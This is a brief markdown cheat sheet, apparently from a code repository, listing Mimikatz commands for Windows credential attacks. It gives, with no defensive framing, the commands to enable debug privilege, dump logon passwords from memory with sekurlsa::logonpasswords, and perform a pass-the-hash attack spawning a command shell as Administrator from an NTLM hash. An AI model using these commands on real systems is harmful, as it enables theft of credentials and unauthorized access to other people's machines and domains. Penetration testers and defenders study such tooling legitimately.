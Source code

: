 # 🥝 Mimikatz

## Commands

### Run

```
mimikatz.exe
```

### Check Privileges

```
privilege::debug
```

### Dump Passwords

```
sekurlsa::logonpasswords
```

### Pass-The-Hash Attack

```
sekurlsa::pth /user:Administrator /domain:winxp /ntlm:<ntlm hash> /run:cmd
```


